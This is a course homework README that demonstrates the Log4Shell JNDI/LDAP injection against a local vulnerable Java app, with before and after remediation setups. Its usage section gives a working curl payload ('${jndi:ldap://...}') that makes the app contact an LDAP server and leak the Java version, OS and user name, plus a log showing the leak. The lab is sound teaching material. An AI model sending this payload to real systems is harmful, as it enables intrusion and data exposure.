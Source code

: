# SEAS-8405 Homework 9 - LDAP Exploitation Demonstration

Stephen Carver
---

This repository contains code and infrastructure for a demonstration of a Log4J exploit, as part of the SEAS-8405 cybersecurity course.

**Disclaimer:** This project is for educational purposes only. It simulates a known class of security vulnerability and should never be deployed in a production environment.

## Project Structure

```
.
├── before/              # Vulnerable setup before remediation
├── after/               # Hardened or remediated setup
├── ldap_server/         # Simulated LDAP server
├── Makefile             # Helper commands for setup, execution, cleanup
└── README.md            # This file
```

## Purpose

The goal of this assignment is to demonstrate how a Java application can be exploited using a JNDI/LDAP vector to make an outbound connection to a rogue LDAP server.

## Exploit Simulation Workflow

1. **Start the LDAP Server**  
   The LDAP server listens for connections and logs requests made to it. This can be done via the provided python script or via the ldap container.

2. **Launch the Vulnerable Java Application**  
   A sample Java application simulates unsafe deserialization by Log4J using JNDI lookups.

3. **Trigger Exploit**  
   A crafted payload causes the application to reach out to the LDAP server. No real malicious code is served, the goal is to verify that the connection occurs.

4. **Log Verification**  
   If using the python script, a simple message will log the connection attempt. If using the LDAP container, the LDAP server's logs will show the connection attempt with a marker such as `EXPLOITED-Java`.

## Usage

### Setup and Execution

```bash
# Start the containers
make before-up

# Run the exploit demo
curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:389/EXPLOITED-Java-${java:version}-OS-${sys:os.name}-User-${sys:user.name}}' http://localhost:8080/log

# View logs from the LDAP server
make before-logs

# Shut down everything
make before-down

# Start the containers
make after-up

# Run the exploit demo
curl -H 'Content-Type: text/plain' --data '${jndi:ldap://host.docker.internal:389/EXPLOITED-Java-${java:version}-OS-${sys:os.name}-User-${sys:user.name}}' http://localhost:8080/log

# View logs from the LDAP server
make after-logs

# Shut down everything
make after-down
```

### Example LDAP Server Log

```
conn=1003 op=1 do_search: invalid dn: "EXPLOITED-Java-Java version 11.0.16-OS-Linux-User-root"
```

## Security Lessons

- Avoid deserializing untrusted input
- Restrict egress traffic from sensitive applications
- Validate and sanitize JNDI lookups
- Use up-to-date Java libraries and disable dangerous features

## References

- [Log4Shell CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
- [JNDI Injection Exploits](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

